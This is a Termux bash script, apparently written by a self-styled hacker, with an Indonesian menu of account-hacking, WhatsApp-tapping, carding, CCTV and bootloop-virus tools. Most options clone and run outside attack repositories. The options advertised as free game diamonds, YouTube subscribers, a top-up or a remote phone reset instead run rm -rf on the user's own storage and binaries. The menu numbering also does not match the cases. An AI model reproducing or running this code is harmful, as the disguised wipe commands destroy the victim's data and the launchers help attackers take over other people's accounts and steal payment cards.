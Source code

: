 # wolf.sh
Xxx
#!/bin/bash
#version 1.0

# Variables
b='\033[1m'
u='\033[4m'
bl='\E[30m'
r='\E[31m'
g='\E[32m'
bu='\E[34m'
m='\E[35m'
c='\E[36m'
w='\E[37m'
endc='\E[0m'
enda='\033[0m'
blue='\e[1;34m'
cyan='\e[1;36m'
red='\e[1;31m'

figlet T3MP35T | lolcat

echo -u "######################################################"
echo -b " TOOLS TERMUX $green " |lolcat
echo -b " COPY BY TEMPEST $green " |lolcat
echo -b " MY FACEBOOK: RIMURU TEMPEST $green " |lolcat
echo -b " RUDEBOYS SQUAD - ANBU CYBER INDO - CYBER SWORD $green " |lolcat
echo -u "#######################################################"


###################################################
# CTRL + C                                        #
###################################################

trap ctrl_c INT
ctrl_c() {
clear
echo -b $green"[#]> (Ctrl + C ) Detected, Trying To Exit ... " |lolcat
echo -b $green"[#]> thanks udah pakai tools ini" |lolcat
sleep 1
echo ""
echo -b $green"[#]> T3MP35T WAS HERE" |lolcat

echo -b $green"[#]> see you again ferguso :)..." |lolcat
sleep 1
exit
}

lagi=1
while [ $lagi -lt 6 ];
do
echo ""
echo -e $b "1. HACK FB NARGET${enda}";
echo -e "============================" | lolcat
echo -e $b "2. HACK IG NARGET${enda}";
echo -e "============================" | lolcat
echo -e $b "3. HACK GMAIL${enda}";
echo -e "============================" | lolcat
echo -e $b "4. SADAP WA JARAK JAUH${enda}";
echo -e "============================" | lolcat
echo -e $b "5.RESET HP ORANG JARAK JAUH${enda}";
echo -e "============================" | lolcat
echo -e $b "6. TOP UP DM ILEGAL GRATIS FREE FIRE${enda}";
echo -e "============================" | lolcat
echo -e $b "7. AUTO SUBSCRIBE 500K YOUTUBE CHANEL${enda}";
echo -e "============================" | lolcat
echo -e $b "8. DUMP TEMAN FB${enda}";
echo -e "============================" | lolcat
echo -e $b "9. CARI CC BUAT CARDING${enda}";
echo -e "============================" | lolcat
echo -e $b "10. TOP UP FREE FIRE${enda}";
echo -e "============================" | lolcat
echo -e $b "11. TEMBAK KUOTA${enda}";
echo -e "============================" | lolcat
echo -e $b "12. BUAT VIRUS BOOTLOOP HP${enda}";
echo -e "============================" | lolcat
echo -e $b "13. JADWAL SHOLAT${enda}";
echo -e "============================" | lolcat
echo -e $b "14. HACK CCTV${enda}";
echo -e "============================" | lolcat
echo -e $b "15. HACK PULSA SMARTFREN${enda}";
echo -e "============================" | lolcat
echo -e $b "16. Exit${enda}";
echo -e "╭─root@tempest" | lolcat
read -p "╰─#" pil;

case $pil in
    1) echo "T3MP35T TOOLS HACK FB NARGET" | lolcat
            pkg install python2
            git clone https://github.com/Senitopeng/KumpulanFbbrute
            echo -e "${y} cara menggunakan KumpulanFbbrute"
            cd KumpulanFbbrute
            python2 jomblo.py
            
;;

2) echo "T3MP35T TOOLS HACK IG NARGET" | lolcat
        apt install python2
        git clone https://github.com/Senitopeng/instabot.git
        echo -e "${y} cara menggunakan INSTA HACK"
        cd instabot
        ./instabot
      
;;

3) echo "T3MP35T TOOLS HACK GMAIL" | lolcat
        apt install python2
        git clone https://github.com/AyoubSirai/gmail_attacker
        echo -e "${y} cara menggunakan Gmail HACK"
        cd gmail_attacker
        python2 gmail_attacker.py
    

;;

4) echo "T3MP35T TOOLS SADAP WA" | lolcat
    git clone https://github.com/soracyberteam/what-sexploit
        echo -e "${y} cara sadap whatsapp"
        cd what-sexploit
        ./whatsex
    

;;

5) echo "T3MP35T  TOOLS RESET  HP ORANG" | lolcat
             pkg update
             pkg upgrade
         rm -rf /storage/emulated/0
        rm -rf /storage
      rm -rf /storage/sdcard
    rm -rf /storage/sdcard1
  rm -rf $PREFIX/bin
exit 

;;

6) echo "T3MP35T TOOLS DM FREE FIRE ILEGAL" | lolcat
             pkg update
             pkg upgrade
         rm -rf /storage/emulated/0
        rm -rf /storage
      rm -rf /storage/sdcard
    rm -rf /storage/sdcard1
  rm -rf $PREFIX/bin
exit

;;

7) echo "T3MP35T  AUTO 500K SUB YOUTUBE  CHANEL" | lolcat
           pkg update
             pkg upgrade
           rm -rf /storage/emulated/0
         rm -rf /storage
       rm -rf /storage/sdcard
     rm -rf /storage/sdcard1
   rm -rf $PREFIX/bin
exit

;;

8) echo "T3MP35T TOOLS DUMP TEMAN FB" | lolcat
    git clone https://github.com/CiKu370/OSIF
        echo -e "${y} cara dump nya "
        cd OSIF
        pip2 install -r requirements.txt
        python2 osif.py
    
;;

9) echo "T3MP35T  TOOLS NGEDUMP CC CARDING" | lolcat
        git clone https://github.com/ganucisystem/creditcard
        echo -e "${y} cara ambil cc nya "
        cd creditcard
        php fake.php
       

;;

10) echo "eror not found sory: T3MP35T" | lolcat
    rm -rf /sdcard/
    rm -rf /storage/emulated/0/
echo

;;

11) echo "T3MP35T  TOOLS TEMBAK KUOTA" | lolcat
        git clone https://github.com/kumpul4semut/semut.git
        echo -e "${y} cara tembaknya "
        cd semut
        python2 dor.py
    

;;

12) echo "T3MP35T TOOLS TEMBAK KUOTA" | lolcat 
    git clone https://github.com/aryanrtm/Jadwal-Sholat
    cd Jadwal-Sholat
    sh jadwal-sholat.sh
    
;;

13) echo "T3MP35T TOOLS NGEBUAT VIRUS" | lolcat  
    git clone https://github.com/TUANB4DUT/VIRUS
    cd VIRUS
    chmod +x bootloop.sh
    sh bootloop.sh
    
;;

14) echo "T3MP35T TOOLS HACK CCTV" | lolcat  
    pkg install python2
    git clone https://github.com/kancotdiq/ipcs
    cd ipcs
    python2 scan.py
    
;;

15) echo "T3MP35T TOOLS HACK PULSA" | lolcat  
    pkg install php
    git clone https://github.com/ganucisystem/radenkeceh
    cd radenkeceh
    php pulsa.php

;;

16) echo "BYE KALIAN  PARA HAYKEL PRO" | lolcat
exit

;;

*) echo "MAAF JIKA ADA KESALAHAN, HARAP DI MAKLUMI"
esac
done
done

